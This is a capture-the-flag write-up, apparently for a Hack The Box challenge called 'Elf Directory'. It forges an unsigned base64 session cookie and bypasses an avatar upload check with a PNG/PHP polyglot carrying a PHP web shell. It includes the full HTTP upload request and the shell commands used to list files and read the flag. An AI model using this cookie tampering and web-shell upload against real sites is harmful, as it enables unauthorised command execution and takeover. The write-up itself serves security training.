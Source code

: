 
## Description
Can you infiltrate the Elf Directory to get a foothold inside Santa's data warehouse in the North Pole?

## Solution

Login page
<img width="1046" alt="image" src="https://user-images.githubusercontent.com/18641572/144716746-eec531e4-65f5-47be-a8b8-d8bf2e7f08e9.png">

Register any user & log in
<img width="1054" alt="image" src="https://user-images.githubusercontent.com/18641572/144716773-174267df-e6bc-44a4-b852-dbab138a3d24.png">

Then add yourself possibility to edit your profile:

Decrypt Cookie PHPSESSID (urldecode + base64 decode):

`eyJ1c2VybmFtZSI6ImFkbWluIiwiYXBwcm92ZWQiOnRydWV9` -> `{"username":"admin","approved":false}`

Change to  `{"username":"admin","approved":true}`

Then you have possibility to upload PNG picture for your profile. But it is carefully checked
with PNG file structure (not only magic number, but first bytes), but extension is not checked.
So we could use this upload possiblity to upload .php file

Use upload avatar png picture functionality to get web shell (e.g via Burp Suite)
```
POST /upload HTTP/1.1
Host: 46.101.92.47:30397
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:94.0) Gecko/20100101 Firefox/94.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------385168380317616655742649190565
Content-Length: 329
Origin: http://46.101.92.47:30397
DNT: 1
Connection: close
Referer: http://46.101.92.47:30397/
Cookie: PHPSESSID=eyJ1c2VybmFtZSI6ImFkbWluIiwiYXBwcm92ZWQiOnRydWV9
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache

-----------------------------385168380317616655742649190565
Content-Disposition: form-data; name="uploadFile"; filename="alpha_2px.php"
Content-Type: image/png

PNG


IHDRÄ
IDATxc6ÐÝIEND®B`
<?php system($_GET['cmd']); ?>
-----------------------------385168380317616655742649190565--
```


Going to
`http://46.101.92.47:30397/uploads/5c770_alpha_2px.php?cmd=ls%20/`

we could see among other files file
`flag_65890d927c37c33.txt`


Then we read it
```
http://46.101.92.47:30397/uploads/5c770_alpha_2px.php?cmd=cat%20/flag_65890d927c37c33.txt

�PNG  IHDRĉ IDATxc6Ј�IEND�B`� HTB{br4k3_au7hs_g3t_5h3lls} 
```
